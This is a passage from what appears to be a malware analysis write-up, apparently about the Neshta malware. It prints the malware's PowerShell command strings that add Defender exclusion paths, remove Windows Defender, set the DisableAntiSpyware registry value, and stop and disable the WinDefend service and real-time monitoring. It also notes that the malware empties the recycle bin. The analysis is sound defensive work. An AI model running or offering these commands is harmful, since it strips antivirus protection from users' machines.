 2.  **Add-MpPreference command (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath \"%s\" "`
    
    -   Adds an exclusion in Windows Defender for a specific path (replaced by `%s`), meaning files in this path will not be scanned by Windows Defender.

3.  **Remove-WindowsFeature, New-ItemProperty commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-WindowsFeature Windows-Defender&&powershell -inputformat none -outputformat none -NonInteractive -Command Windows-Defender-GUI&&powershell -inputformat none -outputformat none -NonInteractive -Command New-ItemProperty -Path \"HKLM:SOFTWAREPoliciesMicrosoftWindows Defender\" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force "`
    
    -   Disables and removes Windows Defender (Windows' built-in antivirus) along with its graphical interface.
    -   Modifies the registry to disable Windows Defender's antispyware feature.

4.  **Get-Service, Stop-Service, Set-Service, Set-MpPreference commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Get-Service WinDefend | Stop-Service -PassThru | Set-Service -StartupType Disabled&&powershell -inputformat none -outputformat none -NonInteractive -Command Set-MpPreference -DisableRealtimeMonitoring $true "`
    
    -   Stops the Windows Defender service (WinDefend), disables it at startup, and turns off Windows Defender's real-time monitoring.

### Clean Recycle Bin

The malware will empty the recycle bin to prevent the recovery of previously deleted data.

![create-diectory](/images/neshta/neshta-clean-recycle-bin.png)
